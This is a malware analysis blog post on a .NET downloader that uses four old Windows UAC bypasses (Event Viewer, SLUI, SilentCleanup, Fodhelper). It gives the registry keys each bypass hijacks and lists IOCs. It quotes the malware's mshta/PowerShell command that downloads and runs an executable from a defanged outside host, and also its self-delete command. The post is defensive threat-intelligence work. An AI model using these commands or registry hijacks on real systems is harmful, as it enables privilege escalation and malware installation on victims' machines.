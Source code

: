 ```yaml
---
layout: post
title: "UAC Bypass Techniques"
date: 2022-06-29 01:20:00 -0000
categories: UACbypass
---
```

![Entry Point]({{site.url}}/{{site.baseurl}}/images/lock.jpg)

## Introduction

In this post, I highlight old UAC bypasss techniques that are still in use. Although the bypass techniques implements in the analyzed sample are older and known, attempts are still being made to exploit them. As a result, defenders should be made aware of these on-going threats. 

I ran across this simple .NET downloader I'm naming *Adan Downloader* based on it's project path. The malware implements UAC bypass techniques in order to execute a Powershell download command proxied through mshta.exe.

The UAC bypass techniques implemented are:
* UAC Bypass via Event Viewer
* UAC Bypass via Slui
* UAC Bypass via SilentCleanup Scheduled Task
* UAC Bypass via Fodhelper

### Sample Metadata
<table>
    <thead>
        <tr>
            <th colspan=2>Adan Downloader</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Filename</td>
            <td>Stub.exe</td>
        </tr>
        <tr>
            <td>File Type</td>
            <td>.NET Binary</td>
        </tr>
        <tr>
            <td>MD5</td>
            <td>47E16AF98E41C83EB2F07A2D29CA8AF9</td>
        </tr>
        <tr>
            <td>SHA1</td>
            <td>4F5161BA956ECB4A453893EB3FC34C1313C6C701</td>
        </tr>
        <tr>
            <td>SHA256</td>
            <td>72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</td>
        </tr>
        <tr>
            <td>PDB</td>
            <td>C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb</td>
        </tr>
        <tr>
            <td>VT</td>
            <td> 
                <a href="https://www.virustotal.com/gui/file/72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534">72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</a>
            </td>
        </tr>
    </tbody>
</table>

### Analysis:

This downloader attempts to bypass User Account Control (UAC) to download unwanted files to a system. Upon execution, it conducts the following activity:
 
Creates a payload objects that contains the URLS and command line arguments for the downloaded file:
```
hxxp://source1.kapetownlink[.]com/installer.exe - Args: /qn CAMPAIGN="1640"
hxxps://setup.maskvpn[.]cc/g.asp?id=151 - Args: /silent /subid=603
```

![Entry Point]({{site.url}}/{{site.baseurl}}/images/main.png)
*Main Function*

For each payload URL, it constructs the following command to download additional files to `%ProgramData%\<random_string>.exe`.

<b>mshta command</b>
```powershell
@"mshta vbscript:(CreateObject(""Wscript.Shell"")).Run(
""cmd /c powershell -Command """"(New-Object System.Net.WebClient).
DownloadFile('hxxp://source1.kapetownlink[.]com/installer.exe', 
(Join-Path -Path $env:ProgramData -ChildPath '5OTP8CZoq3MomB2GxUYrHB8U.exe'))"""" 
& C:\ProgramData\5OTP8CZoq3MomB2GxUYrHB8U.exe /qn CAMPAIGN=""""1640"""""",0)
(window.close)"
```

The command proxies Powershell execution through the mshta utility. This utility normally executes Microsoft HTML Applications (HTA) files. The utility is known as a living off the land binary (LOLBIN) since it's native to the Windows OS. It's a signed tool that can be used to bypass a system's security measures.

After constructing the command, the downloader executes a function named *UACBypass.AutoBypass()*. The function starts by obtaining the Windows product name. Depending on the name, the downloader utilizes old techniques to bypass UAC security measures.

![UACAuto.Bypass]({{site.url}}/{{site.baseurl}}/images/uac_autobypass.png)

*AutoBypass Function*

### UAC Bypass Techniques

#### Windows 7: UAC Bypass via Event Viewer
    
If the product name starts with "Windows 7", the downloader abuses eventvwr.exe by hijacking the `HKCR\mscfile\shell\open\command` registry key to bypass UAC.

The downloader creates the registry key `HKCU\Software\Classes\mscfile\shell\open\command` and then sets the command value to the mshta command. Eventvwr is then started.

The technique works in part because of the relationship between the HKEY_CLASSES_ROOT (HKCR) and HKEY_CURRENT_USER (HKCU) registry keys. When `HKCU\Software\Classes\mscfile\shell\open\command` is created, a entry is also created in `HKCR\mscfile\shell\open\command`. The newly-created entry overwrites the mmc.exe entry that is normally there.
 
When eventvwr.exe is started, it reads `HKCR\mscfile\shell\open\command` to launce mmc.exe, however, since the HKCR key has been hijacked via the HKCU key, the mshta command is executed.

![UACAuto.Bypass]({{site.url}}/{{site.baseurl}}/images/eventvwr.png)


#### Windows 8: UAC Bypass via SLUI

If the product name starts with "Windows 8", UAC bypass is attempted by hijacking the `HKCR\Software\Classes\exefile\shell\open\command` registry key. 

The key `HKCU\Software\Classes\exefile\shell\open\command\` is created and the command is set to the mshta command. As explained previously, a entry is also created in the corresponding HKCR `\Software\Classes\exefile\shell\open\command` key. An additional value DelegateExecute is also created but the value is empty.

Slui.exe, an auto-elevated binary, is then executed with elevated privileges and executes the mshta command. 

![]({{site.url}}/{{site.baseurl}}/images/slui_func.png)


#### Other OS: UAC Bypass via SilentCleanup Scheduled Task

When the OS is determined to be other than Windows 7/8, the downloader reads the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin`.

This key contains a UAC Group Policy setting that indicates whether a user is prompted for consent to continue with an operation. 

The malware checks for a value of 2. The explanation for this value is [here](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4).

If the key is set to 2, the downloader creates the key `HKCU\Environment\windir` and sets it value to the download command with "CleanReg &&" appended to the end. The malware then proceeds to start the *SilentCleanup* scheduled task.

*SilentCleanup* is native to Windows and is used to launch a silent auto disk cleanup when the system is running low on disk space.

The user's environment variables are stored in the `HKCU\Environment\` registry key. The malware adds the mshta command as the environment variable **windir**. As a result, when the *SilentCleanup* task is executed, the mshta command is executed.

![]({{site.url}}/{{site.baseurl}}/images/silentcleanup.png)


#### UAC Bypass via Fodhelper

The final UAC bypass technique implemented by the downloader involves *fodhelper*. *Fodhelper.exe* is used by Windows to manage optional features. During execution, it looks for the registry keys:
    `HKCU\Software\Classes\ms-settings` however, it doesn't normally exist by default.

The downloader creates the key `HKCU\Software\Classes\ms-settings\shell\open\command` and sets the value to the mshta command. As with the previous command, DelegateExecute is created but the value is empty.

*Fodhelper.exe* is then executed.

![]({{site.url}}/{{site.baseurl}}/images/fodhelper.png)

#### Cleanup Activity

The downloader cleans up after itself by deleting the UAC Bypass registry key it created. Then it deletes itself with the command:
    `cmd.exe /C choice /C Y /N /D Y /T 1 & Del <filename>`.

### IOCs

<b>Adan Downloader Hashes</b>
```
72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
```

<b>Project Path</b>

```
C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb
```

<b>UAC Bypass Registry Keys</b>
```
Fodhelper, HKCR|HKCU\Software\Classes\ms-settings\shell\open\command
SLUI, HKCU\Software\Classes\exefile\shell\open\command
Eventvwr, HKCU\Software\Classes\mscfile\shell\open\command
```

<b>SilentCleanup UAC Bypass Scheduled Task</b>
```
schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

<b>Download URLs</b>

```
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
    hxxps://source1.boys4dayz[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
    hxxps://footerquotes.b-cdn[.]net/fq.exe

72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
    hxxp://source1.kapetownlink[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
```

#### References:

* https://attack.mitre.org/techniques/T1218/005/
* https://attack.mitre.org/techniques/T1548/002/
* https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings
* https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4
* https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/
* https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_sluihijack/
* https://www.rapid7.com/db/modules/exploit/windows/local/bypassuac_silentcleanup/
* https://pentestlab.blog/2017/06/07/uac-bypass-fodhelper/